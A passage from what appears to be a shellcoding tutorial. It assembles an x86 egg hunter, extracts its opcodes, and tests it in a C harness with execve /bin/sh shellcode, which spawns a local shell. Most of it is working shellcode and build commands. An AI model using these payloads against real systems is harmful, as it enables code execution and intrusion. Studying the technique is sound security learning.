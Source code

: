 ```nasm
	jnz _secondStep		;Jump back to '_secondStep' if the comparaison is false
	jmp edi			;Jump to our payload
```

Let's compile it:
```console
kali@kali:/tmp$ nasm -f elf32 -o egg_hunter.o egg_hunter.nasm
kali@kali:/tmp$ ld -m elf_i386 -z execstack -o egg_hunter egg_hunter.o
```

We can obtain the hexadecimal representation of the previous code by using the following command:
```console
kali@kali:/tmp$ objdump -d ./egg_hunter |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
```

The following C code is used to test our egg hunter:
```c
#include <stdio.h>
#include <string.h>

// egg_hunter.nasm shellcode is stored here
unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char shellcode[] = \
"\x90\x50\x90\x50" // first egg
"\x90\x50\x90\x50" // second egg
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

void main()
{
	// print the length of the shellcodes
	printf("Egg hunter shellcode length:  %d\n", strlen(egg_hunter));
	printf("Shellcode length:  %d\n", strlen(shellcode));

	// convert shellcode to a function
	int (*ret)() = (int(*)())egg_hunter;
	// execute the shellcode has a function
	ret();

}
```

Let's compile it and execute it:
```console
kali@kali:/tmp$ gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack
kali@kali:/tmp$ ./test_shellcode 
Egg hunter shellcode length:  37
Egg shellcode length:  31
$ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),128(lpadmin),132(scanner)
$ whoami
kali
$ exit
```
